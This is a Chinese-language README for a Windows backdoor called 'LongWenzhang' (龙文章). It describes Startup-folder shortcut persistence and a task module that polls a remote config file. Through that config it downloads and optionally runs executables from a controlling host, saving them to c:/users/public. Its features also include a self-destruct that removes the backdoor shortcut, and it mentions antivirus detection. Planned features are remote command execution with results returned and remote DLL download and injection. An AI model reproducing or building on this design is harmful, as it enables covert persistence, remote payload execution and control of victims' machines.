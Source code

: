 # 龙文章

> 炮灰团团长

- 使用方式

```
LongWenzhang.exe 快捷方式名 配置文件地址
LongWenzhang.exe aaa http://127.0.0.1/1.txt
```
## 功能

### 权限维持 (已实现)

- 启动目录

    > 制作本身的快捷方式放入启动目录

### 信息收集 (未实现)

- 杀软检测

### 任务模块 (已实现)
- 文件下载
  
## 配置文件内容
- http://127.0.0.1/s.txt

```
//获取任务间隔时间(分钟) 默认:30
Sleep = 30
//是否退出程序
Exit = false || true
//毁灭,退出程序并删除快捷方式后门,杀软报毒,代码注释掉了
Destruction = false || true
//配置文件的网络路径
InfoUrl = 

# 文件下载模块
[DownLoad]
//下载文件的地址
url = http://127.0.0.1/s.exe
//下载的文件是否运行
execute = true || false
//执行文件是否需要参数,如果不需要参数,请设置为空
parameter = 
//文件下载保存路径,默认为`龙文章`所在路径
path = c:/users/public/1.exe



# 以下为计划实现的功能
//获取任务时候发送http请求的各种请求头
[http]

//执行的命令,并将命令结果返回,需要配置服务端接收消息/文件
[callback]
command = 
back = 

//下载远程dll文件并注入
[DLL]
//下载文件的地址
url = http://127.0.0.1/s.dll
//下载的文件是否注入
injection = true || false
//执行文件是否需要参数,如果不需要参数,请设置为空
parameter = 
//文件下载保存路径,默认为`龙文章`所在路径
path = c:/users/public/1.exe
```